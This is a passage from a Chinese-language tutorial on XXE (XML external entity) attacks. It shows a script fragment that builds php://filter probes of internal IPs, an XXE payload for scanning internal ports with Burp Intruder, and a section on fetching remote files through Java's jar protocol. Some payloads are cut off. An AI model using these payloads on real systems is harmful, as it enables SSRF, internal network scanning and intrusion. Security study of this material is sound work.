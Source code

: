 ```php
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
        continue
```

## 1.6、内网端口扫描

使用以下 payload 进行端口扫描，通过响应时间来判断端口是否开放，利用 Burp Suite 等工具设置循环遍历端口，自动化进行端口探测，将扫描出来的资产进行相应端口的漏洞利用。

```php
<?xml version="1.0" encoding="utf-8"?> 

<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<user>
<username>&xxe;</username>
<password>1</password>
</user>

可使用burpsuite的intruder模块进行遍历
```

## 1.7、文件上传

我们前面说过 Java 环境下支持 jar 协议，jar 能从远程获取 jar 文件，然后将其中的内容进行解压

jar 协议处理文件的过程：

(1) 下载 jar/zip 文件到临时文件中  
(2) 提取出我们指定的文件  
(3) 删除临时文件

```php
<?xml version="1.0" encoding="utf-8"?> 

]>

<user><username>&remote;</username><password>1</password></user>
```

200 上传成功

![image.png](assets/1700812438-6a17f1ddc0ccee325919127c657f1c8c.png)
